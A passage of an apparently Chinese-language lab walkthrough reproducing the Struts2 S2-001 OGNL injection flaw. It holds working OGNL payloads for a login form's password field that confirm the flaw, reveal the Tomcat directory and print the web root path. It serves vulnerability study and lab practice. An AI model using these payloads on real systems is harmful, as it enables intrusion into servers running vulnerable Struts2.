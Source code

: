 > 
> ##### 验证漏洞是否存在，输入
>
> ```
>%{'zcc'}
> ```
>
> ##### 返回zcc就是存在该漏洞
>
> <img src="1626014256_60eb02307d9446ea4b5f8.png!small" alt="image-20210708095826223" style="zoom:67%;" />
>
> <img src="1626014257_60eb02314f1d814097e87.png!small" alt="image-20210708095804739" style="zoom:67%;" />
>
> ##### 构造poc，填入password框：
> 
> ```
>Poc获取tomcat路径：
> %{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
>```
> 
> <img src="1626014258_60eb0232320aae0fdae0c.png!small" alt="image-20210708101433289" style="zoom:67%;" />
> 
><img src="1626014258_60eb0232eff07569d780c.png!small" alt="image-20210708135151541" style="zoom:67%;" />
> 
>#### 开启struts2-001漏洞
> 
><img src="1626014260_60eb023451749aea12b66.png!small" alt="image-20210708135805848" style="zoom:67%;" />
> 
>#### 验证是否开启
> 
>![image-20210708135910127](1626014262_60eb02363cec2477b283c.png!small)
> 
> <img src="1626014263_60eb02375d96b228384aa.png!small" alt="image-20210708140019492" style="zoom:67%;" />
> 
> #### 验证是否存在
>
> <img src="1626014264_60eb023876f2ddc4f6f1b.png!small" alt="bdbedc76421163ec734cee68dff927a" style="zoom:67%;" />
>
> <img src="1626014265_60eb0239a82b23d1dcf87.png!small" alt="322449e9453684ee7ee4226b8d99c39" style="zoom: 67%;" />
>
> #### 获取tomcat路径
>
> ```
>%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
> ```
>
> <img src="1626014266_60eb023ac448f82370118.png!small" alt="image-20210708140432678" style="zoom:67%;" />
>
> <img src="1626014267_60eb023bf27324c2d60f7.png!small" alt="image-20210708140620554" style="zoom:67%;" />
>
> #### 获取网站的真实路径
>
> ```
>%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
> ```
>